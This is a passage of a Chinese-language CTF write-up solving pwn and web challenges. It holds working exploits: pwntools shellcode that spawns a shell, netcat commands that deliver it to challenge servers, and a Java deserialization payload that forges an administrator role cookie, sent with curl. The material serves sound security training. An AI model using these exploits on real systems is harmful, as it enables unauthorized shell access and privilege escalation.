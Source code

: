 在一个终端中mkfifo payload之后cat - payload | nc 43.248.97.213 30679  
输入/proc/self/maps，回车并ctrl-d后将text_base和stack_base_hi写入stage2 payload构造程序中并执行即可得到flag。  
XSCTF{w4haha_i5_4_g0_m4ste7_0rz_1i4s14}

##### toolong
代码仅使用strlen检查，即让strlen返回1即可。  
shellcode构造：

```python
from pwn import *
context.arch='amd64'
payload = b""

# magic code
payload += b"\xb8\x00\x00\x00\x00" # mov eax, 0
assembly = ""
assembly += shellcraft.amd64.linux.sh()
payload += asm(assembly)
with open("payload", "wb") as f:
    f.write(payload)
```

终端用cat - payload - | nc 43.248.97.213 30697  
enter然后ctrl-d即可弹shell

## Web
Learn_decompilation_and_reflection  
反编译后可以看到POST一个challenge=true以及在cookie中传一个base64的序列化后的User即可。  
payload构造：  
import com.xsctf.ldar.Bean.User;  
import java.lang.reflect.Field;  
import java.io.ByteArrayOutputStream;  
import java.io.ObjectOutputStream;  
import java.nio.file.Files;  
import java.nio.file.Path;  
public class Serialize {  
    public static void main(String[] args) throws Throwable {  
        User theUser = new User();  
        Field role = User.class.getDeclaredField("role");  
        role.setAccessible(true);  
        role.set(theUser, "administrator");  
        ByteArrayOutputStream bytes = new ByteArrayOutputStream();  
        try (ObjectOutputStream stream = new ObjectOutputStream(bytes)) {  
            stream.writeObject(theUser);  
        }  
        Files.write(Path.of("payload.bin"), bytes.toByteArray());  
    }  
}  
执行请求：  
#!/bin/bash  
curl -v   
--data-binary '{"challenge": true}'   
--cookie "user_info="$(cat payload.bin | base64 -w0)   
-H "Content-Type: application/json"   
[http://43.248.97.213:30440/CheckPrivilege](http://43.248.97.213:30440/CheckPrivilege)
